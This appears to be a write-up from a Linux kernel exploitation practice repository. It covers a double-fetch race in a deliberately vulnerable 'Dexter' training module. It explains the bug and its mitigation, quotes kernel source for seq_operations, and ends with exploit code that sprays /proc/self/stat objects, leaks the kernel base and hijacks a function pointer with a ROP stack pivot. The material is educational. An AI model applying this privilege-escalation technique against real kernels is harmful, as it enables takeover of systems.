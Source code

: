 # Double Fetch

Practice from [1].

[1] https://pawnyable.cafe/linux-kernel/LK03/double_fetch.html

## QEMU configuration

Note that this is a race-related bug, and requires running in multiple cores.
All security mitigations may be enabled.

## Double Fetch Vulnerability

From [1]:

Type of data race that occurs in kernel space. It refers to contention caused
by fetching (reading) the same data twice on the kernel side. When kernel space
reads the same data twice from user space, another thread may rewrite the data
in between. This causes the data content to differ between reads, resulting in
a loss of consistency.

The big difference with the race condition vulnerability (seen in
[LK01-4](https://github.com/cpey/pawnyable/blob/main/LK01-4)) is that this bug
cannot be dealt with by taking a mutex on the kernel side.


> Mitigation:
> When dealing with user space data multiple times, you have to copy the data on
> the first use to kernel space, which you will reuse in the subsequent accesses.

The double fetch vulnerability exists in 
[Dexter module](https://github.com/cpey/pawnyable/blob/main/LK03-1/src/Dexter_module/dexter.c),
since the `verify_request()` called at the beginning of the ioctl, copies from
the user memory the length of the request which is checked, and later, within
both ioctl commands this length is read from the user memory again.


~~~c
File: dexter.c

static long module_ioctl(struct file *filp,
                         unsigned int cmd,
                         unsigned long arg) {
  if (verify_request((void*)arg))
    return -EINVAL;

  switch (cmd) {
    case CMD_GET: return copy_data_to_user(filp, (void*)arg);
    case CMD_SET: return copy_data_from_user(filp, (void*)arg);
    default: return -EINVAL;
  }
}
~~~

~~~c
File: dexter.c

int verify_request(void *reqp) {
  request_t req;
  if (copy_from_user(&req, reqp, sizeof(request_t)))
    return -1;
  if (!req.ptr || req.len > BUFFER_SIZE)
    return -1;
  return 0;
}

long copy_data_to_user(struct file *filp, void *reqp) {
  request_t req;
  if (copy_from_user(&req, reqp, sizeof(request_t)))
    return -EINVAL;
  if (copy_to_user(req.ptr, filp->private_data, req.len))
    return -EINVAL;
  return 0;
}

long copy_data_from_user(struct file *filp, void *reqp) {
  request_t req;
  if (copy_from_user(&req, reqp, sizeof(request_t)))
    return -EINVAL;
  if (copy_from_user(filp->private_data, req.ptr, req.len))
    return -EINVAL;
  return 0;
}
~~~

- Find the implementaiton of a double fetch test in [src/02.dexter-test/dexter-test.c](https://github.com/cpey/pawnyable/blob/main/LK03-1/src/02.dexter-test/dexter-test.c),

## struct seq_operations

Since the area that can be destroyed this time is of size 0x20, it belongs to
kmalloc-32. Therefore, it is necessary to find a victim object that is
allocated in the same slab size. `seq_operations` structure is such an option.

`seq_operations` is a structure that describes the handlers called by the
kernel when reading special files like sysfs, debugfs, and procfs, from user
space.  Therefore, it can be created by opening a special file such as
/proc/self/stat. Since it is has in it a bunch of function pointers, it can be
used to leak the address of the kernel.

~~~c
File: /include/linux/seq_file.h

struct seq_operations {
    void * (*start) (struct seq_file *m, loff_t *pos);
    void (*stop) (struct seq_file *m, void *v);
    void * (*next) (struct seq_file *m, void *v, loff_t *pos);
    int (*show) (struct seq_file *m, void *v);
};
~~~

Note that in addition to the `seq_operations` structure, the structure
`file_operations` -- defined in include/linux/fs.h --, is created on every
opened file as well, although the `file_operations` is a much larger structure,
of size 256 bytes, and therefore not polluting our slab.

## /proc/self/stat

The `stat` file is defined in /fs/proc/base.c, 

~~~c
File: /fs/proc/base.c, 

static const struct pid_entry tid_base_stuff[] = {
...
  ONE("stat",      S_IRUGO, proc_tid_stat),
...
}
~~~

where the macro ONE is defined as 

~~~c
File: /fs/proc/base.c, 

#define NOD(NAME, MODE, IOP, FOP, OP) {            \
   .name = (NAME),                 \
   .len  = sizeof(NAME) - 1,           \
   .mode = MODE,                   \
   .iop  = IOP,                    \
   .fop  = FOP,                    \
   .op   = OP,                 \
}

#define ONE(NAME, MODE, show)              \
   NOD(NAME, (S_IFREG|(MODE)),         \
       NULL, &proc_single_file_operations, \
       { .proc_show = show } )
~~~

and `pid_entry`:

~~~c
File: /fs/proc/base.c

struct pid_entry {
   const char *name;
   unsigned int len;
   umode_t mode;
   const struct inode_operations *iop;
   const struct file_operations *fop;
   union proc_op op;
};
~~~

Therefore, `stat`'s file_operations structure is `proc_single_file_operations`, defined as:

~~~c
File: /fs/proc/base.c

static const struct file_operations proc_single_file_operations = {
   .open       = proc_single_open,
   .read       = seq_read,
   .llseek     = seq_lseek,
   .release    = single_release,
};
~~~

When the file is opened, `proc_single_open` is called:

~~~c
File: /fs/proc/base.c

static int proc_single_open(struct inode *inode, struct file *filp)
{
   return single_open(filp, proc_single_show, inode);
}
~~~

`single_open` is defined in /fs/seq_file.c, which allocates and initializes the
`seq_operations` structure:

~~~c
File: /fs/seq_file.c

int single_open(struct file *file, int (*show)(struct seq_file *, void *),
       void *data)
{
   struct seq_operations *op = kmalloc(sizeof(*op), GFP_KERNEL_ACCOUNT);
   int res = -ENOMEM;

   if (op) {
       op->start = single_start;
       op->next = single_next;
       op->stop = single_stop;
       op->show = show;
       res = seq_open(file, op);
       if (!res)
           ((struct seq_file *)file->private_data)->private = data;
       else
           kfree(op);
   }
   return res;
}
~~~

## Exploitation

The goal is to have a victim object `seq_operations` placed right after the
vulnerable buffer, and by using the out-of-bounds read, read its first pointer
`void * (*start) (struct seq_file *m, loff_t *pos)` and use its value to leak the kernel base address. Then, replace the same pointer with the rop gadget pivoting the stack, and finally execute the gadget by calling `read()`:

~~~c
  // Spray `seq_operations` around the Dexter buffer
  int spray[0x100];
  for (int i = 0; i < 0x80; i++)
    spray[i] = open("/proc/self/stat", O_RDONLY);
  fd = open("/dev/dexter", O_RDWR);
  if (fd == -1) fatal("/dev/dexter");
  for (int i = 0x80; i < 0x100; i++)
    spray[i] = open("/proc/self/stat", O_RDONLY);
  char buf[0x40];
  overread(buf, 0x40);
  kbase = *(unsigned long*)&buf[0x20] - ofs_seq_start;
  printf("[+] kbase = 0x%016lx\n", kbase);
...
  // RIP control
  *(unsigned long*)&buf[0x20] = rop_mov_esp_39000000h;
  overwrite(buf, 0x28);

  // Trigger the exploit
  for (int i = 0; i < 0x100; i++) {
    read(spray[i], buf, 1);
  }
~~~

Full implementation in: [src/04.dexter-krop/dexter-krop.c](https://github.com/cpey/pawnyable/blob/main/LK03-1/src/04.dexter-krop/dexter-krop.c)
